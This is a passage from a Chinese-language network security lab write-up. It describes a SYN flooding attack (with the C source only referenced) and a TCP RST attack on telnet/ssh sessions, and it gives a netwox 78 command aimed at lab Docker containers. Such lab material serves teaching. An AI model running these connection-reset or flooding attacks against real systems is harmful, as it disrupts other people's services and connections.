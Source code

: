 

#### 2.1.3 c语言源码实现攻击

示例代码：见`sourcecode\myheader.h  sourcecode\syn_flooding.c`



编译成功后，攻击成功，连接出现卡顿。

![image-20230421200153052](pic\image-20230421200153052.png)





### 2.2 针对 telnet 或 ssh 连接的 TCP RST 攻击



#### 2.2.1 利用netwox实现rst

利用netwox编号为78的工具`Reset every TCP packet`

（netwox 有时候搜不出来，功能列表如下https://devdiv.github.io/school/tools/net/netwox



~~~bash
netwox 78 --help2

<<Comment
Usage: netwox 78 [-d device] [-f filter] [-s spoofip] [-i ips]
Parameters:
 -d|--device device             device name {Eth0}
 -f|--filter filter             pcap filter
 -s|--spoofip spoofip           IP spoof initialization type {linkbraw}
 -i|--ips ips                   limit the list of IP addresses to reset {all}
 --help                         display simple help
 --kbd                          ask missing parameters from keyboard
 --kbd-k or --kbd-name          ask parameter -k|--name from keyboard
 --argfile file                 ask missing parameters from file

Comment


netwox 78 -d docker0  -f "host 172.17.0.2 or  host 172.17.0.3" 
#这里一定要监听docker0 否则不会成功
~~~

